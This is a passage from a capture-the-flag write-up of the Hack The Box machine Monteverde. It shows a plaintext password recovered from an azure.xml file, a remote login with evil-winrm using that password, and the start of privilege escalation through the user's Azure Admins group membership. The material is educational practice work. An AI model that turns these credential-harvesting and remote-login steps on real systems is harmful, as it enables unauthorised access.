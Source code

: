 ```bash
getting file \mhope\azure.xml of size 1212 as azure.xml (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
```

I found a `azure.xml` file in `mhope` directory downloaded to my machine.

## Getting User Shell

```bash
root@w0lf:~/CTF/HTB/Boxes/Monteverde# cat azure.xml 
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
```

It reveals a password for us. It can be user `mhope` password. We know port `5985` open so I tried `evil-winrm`

It worked I logged in with `mhope : 4n0therD4y@n0th3r$`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-monteverde/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-monteverde/Untitled%203.png)

## Privilege Escalation

When checking about the user we got. It reveals he is in the group of `Azure Admins`.

```php
*Evil-WinRM* PS C:\> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
```